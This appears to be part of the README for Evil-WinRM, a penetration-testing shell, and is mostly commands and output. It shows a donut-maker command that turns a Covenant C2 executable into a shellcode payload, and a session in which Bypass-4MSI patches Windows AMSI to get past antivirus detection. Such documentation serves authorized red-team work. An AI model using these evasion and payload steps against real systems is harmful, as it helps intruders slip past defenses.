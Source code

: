 ```
    Description
    -----------
    Function that loads an arbitrary donut :D
```

You can use this [donut-maker](https://github.com/Hackplayers/Salsa-tools/blob/master/Donut-Maker/donut-maker.py) to generate the payload.bin if you don't use Windows. This script use a python module written by Marcello Salvati ([byt3bl33d3r](https://twitter.com/byt3bl33d3r)). It could be installed using pip: `pip3 install donut-shellcode`

```
python3 donut-maker.py -i Covenant.exe

   ___  _____
 .'/,-Y"     "~-.
 l.Y             ^.
 /\               _\_      Donuts!
i            ___/"   "\
|          /"   "\   o !
l         ]     o !__./
 \ _  _    \.___./    "~\
  X \/ \            ___./
 ( \ ___.   _..--~~"   ~`-.
  ` Z,--   /               \
    \__.  (   /       ______)
      \   l  /-----~~" /
       Y   \          /
       |    "x______.^
       |           \
       j            Y



[+] Donut generated successfully: payload.bin
```

- Bypass-4MSI: patchs AMSI protection.

```
*Evil-WinRM* PS C:\> #amsiscanbuffer
At line:1 char:1
+ #amsiscanbuffer
+ ~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
*Evil-WinRM* PS C:\>
*Evil-WinRM* PS C:\> Bypass-4MSI
[+] Success!

*Evil-WinRM* PS C:\> #amsiscanbuffer
*Evil-WinRM* PS C:\>
```
